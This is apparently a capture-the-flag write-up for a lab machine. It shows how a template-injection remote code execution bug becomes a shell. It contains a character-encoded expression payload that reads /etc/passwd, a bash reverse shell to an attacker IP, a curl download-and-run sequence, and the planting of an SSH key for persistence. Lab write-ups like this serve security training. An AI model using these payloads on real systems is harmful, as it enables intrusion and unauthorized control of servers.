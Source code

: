 # Exploitation RCE port 8080

Knowing it's possible to execute commands in the server, find a way to access it.

Apparently when retrieving the `/etc/passwd` it was done using an approach in which every character of a given command is transformed into Unicode and concatenated with the rest to form the whole word.

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

To execute other commands take the same approach.

I followed these steps:

1. Create a reverse shell bash script

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.16.47/4444 0>&1"
```

2. Try using curl to fetch the file to the server

On my machine

```bash
python -m http.server
```

Then construct the payload as mentioned above (refer to [this](https://vato.cc/hackthebox-writeup-redpanda/) for that matter) in the server to execute

```bash
curl http://10.10.16.47:8000/shell.sh --output /tmp/shell.sh
```

3. Grant permissions to execute the script in the server

```bash
chmod +x /tmp/shell.sh
```

4. Receive the connection

Set up a listener and then execute

```bash
/tmp/shell.sh
```

In the server.

I obtained a reverse shell.

![[rev_shell.png]]

For comfort I passed my public SSH key to the server and then logged in.

![[ssh.png]]

[[Vulnerability assessment server machine]]
